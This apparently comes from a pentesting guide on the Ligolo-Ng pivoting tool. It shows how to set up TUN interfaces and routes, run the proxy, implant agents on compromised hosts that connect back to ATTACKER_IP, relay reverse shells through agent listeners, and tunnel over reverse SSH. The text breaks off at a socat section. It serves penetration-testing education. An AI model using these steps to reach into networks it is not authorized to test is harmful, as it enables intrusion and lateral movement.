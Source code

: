 ```yaml
---
description: >-
  Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to
  establish tunnels from a reverse TCP/TLS connection using a tun interface
  (without the need of SOCKS).
---
```


# Ligolo-Ng

Ligolo-Ng is a unique pivoting tool that allows you to create VPN-like tunnels, enabling direct interaction via target IP addresses instead of using socks proxies. With an interactive CLI interface, you can easily jump from one agent to another without any hassle.

Ligolo-Ng has two parts: a proxy that acts as a C2 interface to locate and select your targets, and also enables listeners on the target machine; and an agent that you implant on the target machine to initiate the VPN connection from the target machine to the attacking machine.&#x20;

The agent does not require higher privileges on the target machine, so you can use a classic reverse shell to simplify any attacking methodology. With Ligolo-Ng, you can run any tool from your attacking machine against a target machine by closing the network gap between layers of networks.

{% embed url="https://github.com/tnpitsecurity/ligolo-ng" %}
Latest link in github to download ligolo-ng
{% endembed %}

<figure><img src="../../.gitbook/assets/Untitled Diagram.jpg" alt=""><figcaption><p>A classic scenario for pivoting use cases</p></figcaption></figure>

### Setting up Ligolo-ng

{% hint style="info" %}
Before running Ligolo-ng, you must create a TUN Interface on the attacker PC so that ligolo can add routes to different sub networks. The idea is that when you have a sub network such as \`192.168.0.0/24\` that is inside the tartget network, you can provide the sub network IP address (which can only be reached from an internal network) to any tool you want.
{% endhint %}

`Creating a Tun Interface`

```
# Before running ligolo-ng proxy, you must create a tuntap virtual interface
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```

<details>

<summary>ligolo-setup-script</summary>

```
#!/bin/bash
me="$(whoami)"
echo "addling ligolo routes to user: $user"

echo "creating the ligolo tun interface"
sudo ip tuntap add user "$me" mode tun ligolo 
sudo ip link set ligolo up

echo "now adding routes $a $b"
a="172.16.0.0/24"
b="192.168.0.0/24"
c="10.10.0.0/24"
sudo ip route add "$a" dev ligolo
echo "done : $a"
sudo ip route add "$b" dev ligolo
echo "done : $b"
sudo ip route add "$c" dev ligolo
echo "done : $c"

echo "good luck! :)"
```

</details>

Once you have added the TUN Interface and the sub networks that you want to access from the attacker PC, you can now launch ligolo proxy on the attacker PC and the agent on an already compromised host in the internal network.

`Connecting to a Ligolo-Agent`

```
# 1. On the attacking machine :
./proxy -selfcert -laddr 0.0.0.0:9901

# 2. On each compromised host with the network that you want to pivot to
./agent -connect ATTACKER_IP:9901
```

### Agent Binding/Listening

`Agent Binding/listening on ligolo allows you to capture reverse shells from an internal network and forward it through the ligolo connection. You can then launch a netcat/pwncat-cs from the attacking machine seamlessly, give you the impression as if you were already in the target network.`

## Ligolo-Ng Pivoting Tutorials / Use Cases

### 1. Accessing the Target Network

Once a connection is establised on the Public Facing Server that is in the Target Network via a reverse shell, it is possible to access/enumerate or exploit any vulnerabilities against a different target in the same network trough ligolo (such as a DMZ) or a target that is in a neighbouring network (in the case of a non-segmented network). This allows an attcker to use their very own tools from the attacking machine.

{% hint style="info" %}
The following method works only when the Target Network has direct access to the attacking machine network, such as in a local network, via port forwarding or a VPN connection. More advanced pivoting techniques will be detailed below.
If the attacking machine is in a NAT network, then, port forwarding should implemented.
{% endhint %}

```
# 1. Follow the ligolo setup process and start the ligolo proxy on the attacking machine 
./proxy -selfcert -laddr 0.0.0.0:9901

# 2. Add a ip route on the attacker machine that will route the target sub network via the ligolo TUN interface
sudo ip route add 192.168.0.0/24 dev ligolo

# 3. Transfer the ligolo agent binary to the compromised target via wget/scp/pwncat-cs

# 4. Initiate a connection from the ligolo agent to the ligolo proxy
./agent -connect ATTACKER_IP:9901

# 5. On ligolo, select the agent that you have deployed on the compromised target (ligolo agent)

# 6. Once selected, type : 
start

//This will now route the sub network 192.168.0.0 via the ligolo TUN interface and through the ligolo tunnel
//Allowing you to use any tool from the attacking maching against the new target machine
```

![image](https://user-images.githubusercontent.com/90450439/221353322-0abc5b8e-01dd-491a-b3f7-0a3b050393ac.png)

### 1.1 Forwarding a reverse shell from the Target Network

Using the Ligolo's Agent Binding/Listening feature, it is possible to recieve a reverse shell connection from a target (in the Target Network) that does not have direct access to the attacking machine (ie. an internet/WAN access). An agent in a compromised server that can communicate with the target can also act as a listner, thus allowing to forward reverse shells through the ligolo tunnel back to the attacking machine.

```
# 1. Establish an agent in the Public Facing server via ligolo agent

# 2. On the ligolo proxy (on the attacking machine), select the agent

# 3. Provide the following command
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:8899 --tcp

# 4. Launch netcat/pwncat-cs on the attacker machine to recieve the reverse shell

//Flags : --addr 0.0.0.0:1234 (the listener IP and port on the compromised server)
//Flags : --to 127.0.0.1:8899 (the netcat/pwncat-cs listner on the attackers machine)
```

{% hint style="info" %}
In the following example, The reverse shell is initiated from the machine 192.168.0.10 in the target network that do not have direct access to the Attacker machine but to the Public Facing Server. When configuring the reverse shell, the connection must be directed to the Public Facing Server's IP address as it is were the ligolo agent will start it's listner that was initiated via listner_add.
{% endhint %}

![image](https://user-images.githubusercontent.com/90450439/221354631-dbcb392f-af06-49d8-a63c-c5c03201c2cd.png)

### 1.2. Accessing the Internal Network 

It is also possible to implant ligolo agents into deeper levels of the network in an organization inorder to compromise additional servers/devices. This follows the simmilar steps that were described for the Public Facing Server. However, this requires once again a reverse shell in the Internal Network or other sorts of foothold as a low privileged user in the internal network. 

```
# 2. Add a ip route on the attacker machine that will route the target sub network via the ligolo TUN interface
sudo ip route add 10.10.0.0/24 dev ligolo

# 3. Transfer the ligolo agent binary to the compromised target via wget/scp/pwncat-cs

# 4. Initiate a connection from the ligolo agent to the ligolo proxy
./agent -connect ATTACKER_IP:9901

# 5. On ligolo, select the agent that you have deployed on the compromised target (ligolo agent)

# 6. Once selected, type : 
start

//This will now route the sub network 10.10.0.0 via the ligolo TUN interface and through the ligolo tunnel
//Allowing you to use any tool from the attacking maching against the new target machine
```
![image](https://user-images.githubusercontent.com/90450439/224545307-05571c12-31a9-41b7-b8cc-8b4365336e77.png)

### 2. Pivoting Ligolo-Ng with SSH access

In the case where the Target Network as well as the Internal Network has no possibility to contact the attacking machine but via a SSH connection, it is possible to initiate a connection from a ligolo agent implanted in the Public Facing Server via a SSH Reverse tunnel. 

To do this, you will first have to initiate a Reverse SSH Connection. This is mainly because the ligolo proxy always listens to connections that are first initiated by the ligolo agent. A reverse ssh connection will allow us to open a port within the Public Facing Server and whatever that connects to that perticular port will then be tunnled trough the SSH connection.

```
//Initiate a Reverse ssh connection to the target server

ssh -R 7878:127.0.0.1:1337 user@target_server_ip
```
![image](https://user-images.githubusercontent.com/90450439/224557695-01ad05f3-a9ca-4456-ac94-246f2b3f5228.png)

Once the ssh tunnel is established, now you can transfer the ligolo agent and run the ligolo agent from the target server, simmilar to the steps shown above..

{% hint style="info" %}
The following method allows only a single ligolo agent connection. Due to the nature of the port mapping that is provided in the SSH reverse connection, once a ligolo agent "occupies" a port, it is not possible to use another ligolo agent on the same port. 
{% endhint %}

```
//On the attacking machine 
./proxy -selfcert -laddr 127.0.0.1:1337

//On the target machine 
./agent -connect 127.0.0.1:7878 -ignore-cert
```
![image](https://user-images.githubusercontent.com/90450439/224558041-d257541d-a8f5-4fdd-9450-e4ef64ae4489.png)

### 2.1 Pivoting Ligolo-Ng with SSH access + SOCAT

In order to avoid initiating multiple SSH connections per ligolo agent connection, you can tunnel these connections through a single SSH connection. To achieve this, we will be using the tool socat. 
